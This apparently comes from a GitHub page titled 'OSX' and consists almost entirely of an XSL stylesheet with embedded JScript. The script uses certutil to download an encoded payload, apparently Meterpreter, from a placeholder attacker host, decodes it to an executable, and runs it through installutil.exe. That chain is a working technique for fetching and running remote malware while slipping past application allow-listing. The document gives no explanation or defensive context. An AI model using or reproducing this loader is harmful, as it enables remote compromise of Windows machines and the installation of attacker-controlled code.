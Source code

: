 # OSX
osx für TKE


<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace%22%3E

<output method="text"/>
  <ms:script implements-prefix="user" language="JScript">
    <![CDATA[
      var ob = new ActiveXObject("WScript.Shell");
      ob.Run("certutil.exe -urlcache -f http://<Kali_IP_web>/met.enc C:\Users\Public\met.enc", 0, true);
      ob.Run("certutil.exe -decode C:\Users\Public\met.enc C:\Users\Public\met.exe", 0, true);
      ob.Run("C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\Public\met.exe", 0, true);
    ]]>
  </ms:script>
</stylesheet>

